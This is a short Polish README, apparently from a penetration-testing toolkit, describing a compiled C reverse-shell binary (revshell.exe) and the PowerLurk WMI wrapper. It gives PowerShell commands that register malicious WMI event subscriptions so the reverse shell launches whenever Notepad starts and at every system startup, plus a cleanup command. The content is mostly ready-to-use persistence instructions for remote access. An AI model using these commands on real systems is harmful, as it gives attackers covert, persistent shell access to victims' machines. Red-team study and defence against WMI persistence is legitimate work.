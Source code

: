 # revshell.exe
revshell.exe to skompilowana binarka z revershellem w c źródło: https://github.com/tudorthe1ntruder/reverse-shell-poc

# PowerLurk.ps1
Wrapper na funkcjie WMI 
źródło: 
- https://github.com/Sw4mpf0x/PowerLurk
- https://pentestarmoury.com/2016/07/13/151/
Przykład użycia 
```powershell
Import-Module .\PowerLurk.ps1
# To pozwoli na uruchomienie binarki revshell.exe za każdym razem jak zostanie uruchomiony notatnik
Register-MaliciousWMIEvent -EventName SecFault -PermanentCommand "/path/to/revshell.exe" -Trigger ProcessStart -ProcessName notepad.exe
# RevShell podczas startup
Register-MaliciousWMIEvent -EventName SecFault -Trigger Startup -PermanentCommand "C:\Users\User\Desktop\revshell.exe"
# Żeby wyczyścić wszysktie stworzone eventy wmi o nazwie SecFault
Get-WmiEvent -Name SecFault | Remove-WmiObject
```